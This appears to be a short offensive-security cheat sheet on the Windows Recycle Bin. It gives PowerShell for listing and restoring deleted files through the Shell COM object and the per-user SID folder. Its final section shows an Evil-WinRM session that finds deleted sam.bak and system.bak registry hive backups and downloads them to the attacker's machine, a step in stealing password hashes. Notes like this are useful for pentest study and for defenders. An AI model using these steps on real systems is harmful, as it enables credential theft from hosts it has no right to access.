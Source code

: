 Access the Recycle Bin using the Shell COM object
```
$shell = New-Object -ComObject Shell.Application
$rb = $shell.Namespace(10)
```
List items currently in the Recycle Bin
```
$rb.Items() | ForEach-Object { $_.Name }
```
Inspect file properties
```
$item = $rb.Items()
PS C:\> $item

Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      : 
GetFolder    : 
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```
Get the current user's SID (Security Identifier)
```
$SID = ([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value
```
Remarks: Each user has a separate folder inside the Recycle Bin
Set the user-specific Recycle Bin path
```
$RecyclePath = "C:\`$Recycle.Bin\$SID"
```
List all deleted files in the user's Recycle Bin
```
Get-ChildItem -Path $RecyclePath -Force | Where-Object { $_.Name -like '$R*' }
```
Copy a deleted file from the Recycle Bin (use quotes!)
```
Copy-Item 'C:\$Recycle.Bin\<UserSID>\$REXXXXX.ext' -Destination 'C:\Path\To\Restore\file.ext'
```

Alternatively: copy and download the file
```
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> dir


    Directory: C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak

*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> copy * C:\Users\Jareth\Downloads

download sam.bak
Info: Downloading C:\Users\Jareth\Downloads\sam.bak to sam.bak
Info: Download successful!
download system.bak
Info: Downloading C:\Users\Jareth\Downloads\system.bak to system.bak
Info: Download successful!
```